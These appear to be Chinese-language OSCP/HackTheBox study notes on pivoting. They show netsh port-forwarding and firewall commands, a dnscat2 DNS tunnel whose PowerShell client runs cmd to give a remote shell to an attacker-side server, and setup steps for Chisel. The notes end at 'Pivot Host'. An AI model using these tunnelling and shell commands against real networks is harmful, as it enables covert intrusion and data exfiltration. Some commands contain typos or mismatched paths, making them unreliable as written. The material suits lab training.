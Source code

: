 
- OSCP Command netsh開啟轉發功能
```
netsh interface portproxy add v4tov4 listenport=2222 listenliten=192.168.239.64 connectport=22 connectlisten=10.4.239.215
```
- OSCP Command netsh開啟防火牆
```
netsh advfirewall firewall add rule name="port_forwarding" protocol=TCP dir=in localip=192.168.239.64 localport=2222 action=allow
```
# DNS Tunneling with Dnscat2
>[!warning] 小節重點
>透過DNS Tunnel把內網資訊透過DNS tunnel轉發出來，可以拿shell，有Server跟Client端要設定。
## dnscat2 Server
- 程式下載
```shell-session
git clone https://github.com/iagox86/dnscat2.git
```
- 開啟Server
```shell-session
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```
## dnscat2 Client
>[!warning] 小節重點
>如果是windows主機，可以使用powershell版本
- 程式下載及安裝
```shell-session
git clone https://github.com/lukebaggett/dnscat2-powershell.git

cd dnscat2/server/ 
sudo gem install bundler 
sudo bundle install
```
- 設定Client
```powershell-session
PS C:\htb> Import-Module .\dnscat2.ps1
```
```powershell-session
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```
## Established Session
```shell-session
dnscat2> window -i 1
```
# SOCKS5 Tunneling with Chisel
>[!warning] 小節重點
>Chisel 就是很屌的工具，要先製作binary，
- 程式下載
```shell-session
git clone https://github.com/jpillora/chisel.git
```
- build binary
```shell-session
go build
```
```
go build --ldflags '-linkmode external -extldflags "-static"'
```
## Pivot Host